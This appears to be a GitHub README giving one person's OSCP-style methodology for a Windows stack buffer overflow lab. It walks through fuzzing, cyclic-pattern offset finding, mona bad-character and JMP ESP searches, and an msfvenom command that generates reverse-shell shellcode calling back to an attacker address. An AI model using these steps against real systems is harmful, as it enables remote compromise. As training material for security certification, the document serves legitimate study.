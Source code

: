 After passing OSCP, various people have asked about my process for the buffer overflow.  Well, here it is.  A few things to note:

1. You should take the time to come up with your own methodology that makes sense to you.
2. My method/scripts uses python3 and pwntools.
3. I am not a professional python programmer, there is likely better ways to do it.
4. The usual disclaimers about doing things at your own risk apply.

-------

#### 1. Start Immunity/app as administrator

#### 2. Confirm connectivity from attack host
```
nc xxx.xxx.xxx.xxx <port>
```

#### 3. Fuzz for crash (See fuzzer template)
```
[root@kali:/r/bof]# python3 fuzzer.py
```

#### 4. Generate cyclic pattern to find exact crash
```
[root@kali:/r/bof]# cyclic 300
aaaabaaacaaadaaaeaa [ .. snip .. ] afaaagaaahaaaiaaa
```

#### 5. Add pattern to "overflow" in exploit.py and repro crash

#### 6. Get offset from address in EIP and set "offset"
Get address in EIP and find number of bytes to EIP:
```
[root@kali:/r/bof]# cyclic -l 0x61616275
2003
```

#### 7. Remove cyclic pattern from "overflow" and replace with "A" * offset
```
offset = 2003 # EIP @ 0x61616275
overflow = b"A" * offset
eip = b"BBBB" # 
```

#### 8. Replicate crash and confirm "B" in EIP

#### 9. Find Bad Characters with mona
- Set working dir:

`!mona config -set workingfolder C:\Windows\Temp`
- Create bytearray (without bad chars we know about)

`!mona bytearray --cpb "\x00"` 
- Include list chars in payload (without \x00)
```
badchars = [0x00] # start with null
```
- Repro crash with charpayload
- After the crash use mona to find the next bad char:

`!mona compare -f C:\Windows\Temp\bytearray.bin -a esp`
- Note new bad char, add it to "badchars"
- Repeat steps until no new bad chars are reported

#### 10. Find Jump Point using bad chars (running or crashed) - will be in "Log Data" window
```
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```

#### 11. Put jmp address in "eip" var backwards (little endian)
```
eip = b"\xfa\x11\x50\x62" # 625011AF
```

#### 12. Generate shellcode without bad chars and add as "sc" var
```
[root@kali:/r/bof]# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.230 LPORT=6666 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f python -v sc
```

#### 13. Add shellcode

#### 14. Add NOPs as needed and comment out "charpayload"
```
padding = b"\x90" * 16
```
#### 15. Get shell 
